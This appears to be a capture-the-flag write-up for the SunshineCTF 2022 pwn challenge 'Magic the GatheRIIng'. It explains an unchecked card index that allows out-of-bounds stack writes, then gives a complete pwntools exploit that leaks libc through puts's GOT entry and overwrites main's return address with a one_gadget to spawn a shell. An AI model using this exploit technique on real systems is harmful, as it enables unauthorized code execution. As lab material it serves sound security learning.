




## [RII] Magic the GatheRIIng

was a pwn challenge from SunshineCTF 2022.

the program is a pseudo "magic the gathering" card game.

let's check binary protections:



ok so no PIE.

well the program present us a menu:



you can print rules, load cards, play the game (slow of fast), and exits..

well the vulnerability lies in the function at address 0x40153f:



if you look at the reverse produce by IDA,

you can see that the scanf function `__isoc99_sscanf(a2, "%hhd %c %s %d %d %d", &v4, &v5, v10, &v6, &v7, &v8)`

initialize various variables,  the `v4` variable is used to calculate the `v9` pointer a bit after `v9 = 24LL * v4 + a1;`

then this `v9` pointer is used to write the other values `v6`, `v7` and `v8` in particular.

the `v4` index is not checked for any bounds, and as `v9` is based on `a1` variable that points on stack,

we basically have an out of bounds write on stack.

We can only control `v6`, `v7`, and `v8` values , so a qword and a dword,..
 
we can only load cards two times, so we can only write two really controlled values on stack..

**So here is the plan**

* **First we will try to have a libc leak**

* **Second we will overwrite main return address with a one gadget**

When playing the game, a string "Basic Troll" or "Basic Land" is printed, via pointers to this strings..

Luckily for us, one of this pointer is reachable with our oob write on stack , the "Basic Land" string pointer.

So we will overwrite this pointer, with the `puts()` function GOT address

Then we play a game , and when the game will try to print "Basic Land", it will leak `puts()` function libc address..

with this leak we will calculate libc base address.

Then with our second oob write, we overwrite `main()` return address with a onegadget..

And when we will exit, we will have a shell...

and that's All..

seeing is believing no?



if you understand nothing of my explanation, well... just read the code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("MagicTheGatheRIIng_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def sla(delim,line): return p.sendlineafter(delim,line)

host, port = "sunshinectf.games", "22002"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# overwrite "Basic Land" string at offset 20, with puts got address to leak libc address
sla('> ', '2')
payload = '20 m %p 0 '+str(0x405f60)+' 0\n'
sla(':\n', payload)

# get our leak
sla('> ', '4')
while(1):
  p.recvuntil('Drew ', drop=True)
  leak = p.recv(6)
  if 'Basic' not in leak:
    break
# calculate libc base
libc.address = u64(leak.ljust(8,b'\x00')) - libc.sym['puts']
logbase()
p.recvuntil('Simplified', drop=True)
onegadgets = one_gadget(libc.path, libc.address)

# overwrite return address at offset 45 with onegadgets
sla('> ', '2')
target = onegadgets[1]
payload = '45 m '+'\x40\x02\x03'+' 1337 '+str(target & 0xffffffff)+' '+str((target>>32) & 0xffffffff)+'\n'
sla(':\n', payload)
# return and get shell
sla('> ', '5')

p.interactive()
```

*nobodyisnobody still pwning...*
